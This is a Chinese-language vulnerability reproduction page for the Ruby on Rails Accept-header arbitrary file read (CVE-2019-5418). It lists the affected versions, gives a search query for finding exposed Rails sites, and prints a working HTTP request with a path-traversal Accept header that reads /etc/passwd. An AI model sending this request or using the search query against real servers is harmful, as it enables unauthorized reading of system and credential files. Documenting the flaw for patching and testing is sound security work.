 # Rails Accept 任意文件读取漏洞 CVE-2019-5418

# Rails Accept 任意文件读取漏洞 CVE-2019-5418

## 漏洞描述

Ruby on Rails是一个 Web 应用程序框架,是一个相对较新的 Web 应用程序框架，构建在 Ruby 语言之上。这个漏洞主要是由于Ruby on Rails使用了指定参数的render file来渲染应用之外的视图，我们可以通过修改访问某控制器的请求包，通过“…/…/…/…/”来达到路径穿越的目的，然后再通过“{{”来进行模板查询路径的闭合，使得所要访问的文件被当做外部模板来解析。

## 漏洞影响

```
Rail <= 5.2.2.1
```

## 网络测绘

```
title="Ruby On Rails"
```

## 漏洞复现

主页面

![image-20220628111456281](/images/202206281119622.png)

验证请求包

```
GET /robots HTTP/1.1
Host: 127.0.0.1:3000
Accept-Encoding: gzip, deflate
Accept: ../../../../../../../../etc/passwd{{
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
```

![image-20220628111940387](/images/202206281119526.png)

